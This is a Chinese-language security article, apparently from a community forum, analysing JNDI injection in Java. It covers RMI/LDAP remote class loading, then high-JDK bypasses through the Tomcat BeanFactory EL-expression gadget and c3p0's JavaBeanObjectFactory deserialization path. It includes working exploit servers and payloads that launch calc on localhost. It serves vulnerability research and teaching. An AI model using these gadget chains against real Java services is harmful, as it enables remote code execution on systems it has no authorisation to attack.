# jndi +JavaBeanObjectFactory 实现高版本绕过-先知社区

> **来源**: https://xz.aliyun.com/news/19306  
> **文章ID**: 19306

---

# 低版本注入

先来复习一下jndi注入

## rmi

先准备一个恶意类编译成class

```
//package JNDI;

import java.lang.Runtime;

public class test{
    static {
        try{
            Runtime.getRuntime().exec("calc");
        }catch (Exception e){
            System.out.println(e);
        }
    }
    public  test(){}
}
```

本地起一个python服务

服务端代码：绑定恶意class文件

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class RMIServer {

    public static void main(String[] args) throws Exception{
        Registry registry= LocateRegistry.createRegistry(7777);

        Reference reference = new Reference("test", "test", "http://localhost/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("calc", wrapper);

    }
}
```

客户端代码：

```
package JNDI;

import com.mchange.v2.naming.JavaBeanObjectFactory;

import javax.naming.InitialContext;

public class JNDI_Test {
    public static void main(String[] args) throws Exception{
        new InitialContext().lookup("rmi://127.0.0.1:7777/calc");
    }
}
```

先运行服务端代码，再允许客户端



接下来分析漏洞

从RegistryContext.lookup方法开始跟



继续跟decodeObject



继续跟getObjectInstance方法



跟进这个方法

此处`clas = helper.loadClass(factoryName);`尝试从本地加载`Factory`类，如果不存在本地不存在此类，则会从`codebase`中加载：`clas = helper.loadClass(factoryName, codebase);`会从远程加载我们恶意class，然后在`return`那里`return (clas != null) ? (ObjectFactory) clas.newInstance() : null;`对我们的恶意类进行一个实例化，进而加载我们的恶意代码。



由于test类不是我们本地类就会远程加载



跟进loadclass



直接Class.forName并传入了true，所以这里会做初始化，如果我们在恶意类里面的相关命令执行的代码写到的是初始化模块里面，则在这里就会触发了，如果是在构造方法里面写的相关命令执行的代码则是在newInstance里面触发。

调用栈

```
loadClass:73, VersionHelper12 (com.sun.naming.internal)
loadClass:61, VersionHelper12 (com.sun.naming.internal)
getObjectFactoryFromReference:146, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:9, JNDI_Test (JNDI)
```

## ldap

直接yakit起一个服务端



客户端代码：

```
package JNDI;

import com.mchange.v2.naming.JavaBeanObjectFactory;

import javax.naming.InitialContext;

public class JNDI_Test {
    public static void main(String[] args) throws Exception{
        new InitialContext().lookup("ldap://127.0.0.1:8085/ecEzwVXo");
    }
}
```



接下来进行漏洞分析

```
调用了一个DirectoryManager.getObjectInstance 类似于NamingManager.getobjectInstance
```



由于不是本地类就要远程加载



```
loadClass:72, VersionHelper12 (com.sun.naming.internal)
loadClass:61, VersionHelper12 (com.sun.naming.internal)
getObjectFactoryFromReference:146, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
main:9, JNDI_Test (JNDI)
```

# 高版本的限制

decodeObject加了一个if判断



**绕过方法**

我们的目的就是能够成功的 调用`NamingManager.getObjectInstance`

因为这里会调用本地工厂的getObjectInstance方法，如果本地getObjectInstance方法里面存在恶意方法，就可以实现rce



不抛出异常的话就是  
1、令 ref 为空  
2、令 ref.GetFactoryClassLocation() 为空  
3、令 trustURLCodebase 为 true

主要使用第二种方法  
Ref.GetFactoryClassLocation() 返回空，让 ref 对象的 classFactoryLocation 属性为空，这个属性表示引用所指向对象的对应 factory 名称，对于远程代码加载而言是 codebase，即远程代码的 URL 地址(可以是多个地址，以空格分隔)，这正是我们针对低版本的利用方法；如果对应的 factory 是本地代码，则该值为空，这是绕过高版本 JDK 限制的关键

## BeanFactory

利用本地的类进行利用，对于本地的类也是有要求的，这个类必须是个工厂类，该工厂类型必须实现javax.naming.spi.ObjectFactory 接口，因为在javax.naming.spi.NamingManager#getObjectFactoryFromReference最后的return语句对工厂类的实例对象进行了类型转换return (clas != null) ? (ObjectFactory) clas.newInstance() : null;；并且该工厂类至少存在一个 getObjectInstance() 方法

`org.apache.naming.factory.BeanFactory`，并且该类存在于Tomcat依赖包

添加依赖

```
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>

<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
```

服务端代码

```
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class RMIServer {

    public static void main(String[] args) throws Exception{
        
        Registry registry = LocateRegistry.createRegistry(7777);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", """.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("calc", referenceWrapper);

    }
}
```

客户端代码

```
package JNDI;

import com.mchange.v2.naming.JavaBeanObjectFactory;

import javax.naming.InitialContext;

public class JNDI_Test {
    public static void main(String[] args) throws Exception{
        new InitialContext().lookup("rmi://127.0.0.1:7777/calc");
    }
}
```



漏洞分析

这里使用的是本地工厂类，所以可以直接走到`NamingManager.getObjectInstance`并且成功获取到了工厂类，调用了它的getObjectInstance方法



这里实现了一个el表达式的反射调用



## JavaBeanObjectFactory

JavaBeanObjectFactory类是c3p0包下的

导入依赖

```
<dependency>
    <groupId>com.mchange</groupId>
    <artifactId>c3p0</artifactId>
    <version>0.9.5.2</version>
</dependency>
```

先来看它的getobjectInstance方法



```
public Object getObjectInstance(Object var1, Name var2, Context var3, Hashtable var4) throws Exception {
    if (!(var1 instanceof Reference)) {
        return null;
    } else {
        Reference var5 = (Reference)var1;
        HashMap var6 = new HashMap();
        Enumeration var7 = var5.getAll();

        while(var7.hasMoreElements()) {
            RefAddr var8 = (RefAddr)var7.nextElement();
            var6.put(var8.getType(), var8);
        }

        Class var11 = Class.forName(var5.getClassName());
        Set var12 = null;
        BinaryRefAddr var9 = (BinaryRefAddr)var6.remove("com.mchange.v2.naming.JavaBeanReferenceMaker.REF_PROPS_KEY");
        if (var9 != null) {
            var12 = (Set)SerializableUtils.fromByteArray((byte[])((byte[])var9.getContent()));
        }

        Map var10 = this.createPropertyMap(var11, var6);
        return this.findBean(var11, var10, var12);
    }
}
```

先看SerializableUtils.fromByteArray方法，当传入的属性中包含键值com.mchange.v2.naming.JavaBeanReferenceMaker.REF\_PROPS\_KEY时才会走到

```
refProps = (Set) SerializableUtils.fromByteArray( (byte[]) refPropsRefAddr.getContent() );
```



```
public static Object fromByteArray(byte[] var0) throws IOException, ClassNotFoundException {
    Object var1 = deserializeFromByteArray(var0);
    return var1 instanceof IndirectlySerialized ? ((IndirectlySerialized)var1).getObject() : var1;
}
```

跟进一下deserializeFromByteArray方法，发现这里进行了一个反序列化操作



接下来就可以构造了

```
public static void main(String[] args) throws Exception {
Reference ref = new Reference("java.lang.Object",
        "com.mchange.v2.naming.JavaBeanObjectFactory",null);

ref.add(new BinaryRefAddr("com.mchange.v2.naming.JavaBeanReferenceMaker.REF_PROPS_KEY",Utils.base64ToByte("base64序列化字节")));  
Registry registry = LocateRegistry.createRegistry(7777);
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("calc", referenceWrapper);
}
```

同理`createPropertyMap`方法中也存在反序列化点



里面也有一个SerializableUtils.fromByteArray方法



构造也和上面类似

再看看findbean方法，功能主要是调用setter方法，



先回顾一下c3p0里面的HEX序列化字节加载器进行反序列化攻击，直接看setter方法

这里有个判断大概意思就是userOverridesAsString和传入的 hex 字节码做比较，肯定不相等，然后往下看 VetoableChangeSupport.FireVetoableChange



继续跟



重点分析这段代码

```
public void fireVetoableChange(PropertyChangeEvent event)
        throws PropertyVetoException {
    Object oldValue = event.getOldValue();
    Object newValue = event.getNewValue();
    if (oldValue == null || newValue == null || !oldValue.equals(newValue)) {
        String name = event.getPropertyName();

        VetoableChangeListener[] common = this.map.get(null);
        VetoableChangeListener[] named = (name != null)
                    ? this.map.get(name)
                    : null;

        VetoableChangeListener[] listeners;
        if (common == null) {
            listeners = named;
        }
        else if (named == null) {
            listeners = common;
        }
        else {
            listeners = new VetoableChangeListener[common.length + named.length];
            System.arraycopy(common, 0, listeners, 0, common.length);
            System.arraycopy(named, 0, listeners, common.length, named.length);
        }
        if (listeners != null) {
            int current = 0;
            try {
                while (current < listeners.length) {
                    listeners[current].vetoableChange(event);
                    current++;
                }
            }
            catch (PropertyVetoException veto) {
                event = new PropertyChangeEvent(this.source, name, newValue, oldValue);
                for (int i = 0; i < current; i++) {
                    try {
                        listeners[i].vetoableChange(event);
                    }
                    catch (PropertyVetoException exception) {
                        // ignore exceptions that occur during rolling back
                    }
                }
                throw veto; // rethrow the veto exception
            }
        }
    }
}
```

这里主要为 listeners 赋值为 common，if (listeners != null)判断成立，进入 `listeners[current].vetoableChange(event);` 也就是**WrapperConnectionPoolDataSource.VetoableChange 方法**

最终会走到这里



然后对传入的hex字节进行反序列化



调试分析一下

这里过了if，往下跟



走到**WrapperConnectionPoolDataSource.VetoableChange 方法**



这里的propName=userOverridesAsString，所以就会走到parseUserOverridesAsString方法



这里的userOverridesAsString就是传入的恶意hex



接下来反序列化





成功触发



所以构造如下

```
    Reference ref = new Reference("com.mchange.v2.c3p0.WrapperConnectionPoolDataSource",
            "com.mchange.v2.naming.JavaBeanObjectFactory", null);

    String poc = ""; 

    ref.add(new StringRefAddr("userOverridesAsString", "HexAsciiSerializedMap:" + poc+";"));
    Registry registry = LocateRegistry.createRegistry(7777);
    ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
    registry.bind("calc", referenceWrapper);
```

## 调试分析

这里的classFactoryLocation 属性为空，绕过了if判断



返回了本地工厂类



接着进入findbean方法里面调用传入的setter方法



最终调用栈：

```
deserializeFromByteArray:144, SerializableUtils (com.mchange.v2.ser)
fromByteArray:123, SerializableUtils (com.mchange.v2.ser)
parseUserOverridesAsString:318, C3P0ImplUtils (com.mchange.v2.c3p0.impl)
vetoableChange:110, WrapperConnectionPoolDataSource$1 (com.mchange.v2.c3p0)
fireVetoableChange:375, VetoableChangeSupport (java.beans)
fireVetoableChange:271, VetoableChangeSupport (java.beans)
setUserOverridesAsString:387, WrapperConnectionPoolDataSourceBase (com.mchange.v2.c3p0.impl)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
findBean:146, JavaBeanObjectFactory (com.mchange.v2.naming)
getObjectInstance:72, JavaBeanObjectFactory (com.mchange.v2.naming)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:499, RegistryContext (com.sun.jndi.rmi.registry)
lookup:138, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:14, JNDI_Test (JNDI)
```
